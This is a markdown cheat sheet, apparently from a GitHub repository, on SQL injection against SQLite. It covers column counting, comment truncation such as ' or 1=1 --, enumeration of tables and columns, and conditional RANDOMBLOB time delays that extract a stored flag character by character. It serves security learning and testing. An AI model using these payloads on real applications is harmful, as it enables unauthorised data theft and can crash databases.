 ## SQLite engine

* #### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
* ```sqlite_version()```
```
#example
select sqlite_version()
```

* #### String concatenation
You can concatenate together multiple strings to make a single string.
* ```||```
* ```CONCAT('Hello', ' ', 'World')```
```
#example
SELECT 'Hello' || ' ' || 'World';
SELECT CONCAT('Hello', ' ', 'World');
```

* #### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ```e```.
* ```substr('Hello World',2,1)```
```
#example
select substr(name,2,1) from demo;
```
* ### Finding the number of columns
ORDER BY is essential in SQL injection to determine the number of columns in a vulnerable query. It helps identify injectable columns for UNION SELECT attacks and can be combined with boolean or time-based techniques to extract data. This makes it a key step in structuring successful SQLi exploitation
```
#example
#Original Query
select id,name,role from users

#Identify number of columns
/* The database engine will run it correctly, because the number of columns in the original query is 3 id, name and role */
select id,name,role from users order by 3

/* The database engine will return an error, because there is not a column #4, this tell us that the original query is returning only 3 columns */
select id,name,role from users order by 4
```

* ### Extracts a specific row
For Blind SQL injection we have to ensures that only the first or a specific row of a query result is returned, making it useful for blind SQLi when extracting data character by character.
* ```LIMIT 1,1```
* ```LIMIT 1 OFFSET 1```
```
#example
select username from users LIMIT 0,1; -- Returns the first user
select username from users LIMIT 1,1; -- Returns the second user

select username from users order by 1 LIMIT 1 OFFSET 0 -- Returns the first user
select username from users order by 1 LIMIT 1 OFFSET 1 -- Returns the second user
```

* #### Length
You can extract the string length, this command allow to know the length for a specific row, Note that you need to combinate it with ```order by``` or ```Limit``` command for Blind SQL injection
* ```LENGTH('hello world')```
```
#example
select LENGTH(name) from demo;
```

* #### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
* ```--```
* ```/* comment */```
```
#example
select username from users where username='admin' or 1=1 -- {this will be ignored}' and password='s3cr3t';
```

* #### Database list
You can list the database that exist in the sqlite server.
```
#example
#Count databases
SELECT count(name) FROM pragma_database_list;

#Recover databases name
SELECT name FROM pragma_database_list;
```

* #### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```
#example
#Count tables
SELECT count(name) FROM sqlite_master WHERE type = 'table';

#Recover tables name
SELECT name FROM sqlite_master WHERE type = 'table';

#Count columns from table 'demo'
SELECT count(name) FROM pragma_table_info('demo');

#Recover columns from table 'demo'
SELECT name FROM pragma_table_info('demo');
```


* #### Time delays
You can cause a time delay in the database when the query is processed. This can slow down execution by generating a large random blob (it may crash SQLite)
```
SELECT length(randomblob(900000000));
```

* #### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true. syntax ``` select case when (<your query here>) then RANDOMBLOB(10000000) ELSE 2 end```.
```
#example
/* create table secret (id int, flag varchar(50)) */
/* insert into secret values(1, 'flag{sp34rh34d}') */

/* This recover the first row from secret table and compare the length value if is greater than 5 */
SELECT case WHEN (LENGTH((select flag from secret order by 1 LIMIT 0,1)) > 5) then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare if the first char is equal to f */
SELECT case WHEN (substr((select flag from secret order by 1 LIMIT 0,1),1,1) ='f') then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare if the first char is equal to f */
SELECT case WHEN (substr((select flag from secret order by 1 LIMIT 0,1),2,1) ='f') then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare using hex value */
SELECT case WHEN (hex(substr((select flag from secret order by 1 LIMIT 0,1),2,1)) ='6C') then RANDOMBLOB(10000000) ELSE 2 end
SELECT case WHEN (hex(substr((select flag from secret order by 1 LIMIT 0,1),3,1)) =hex('a')) then RANDOMBLOB(10000000) ELSE 2 end

```




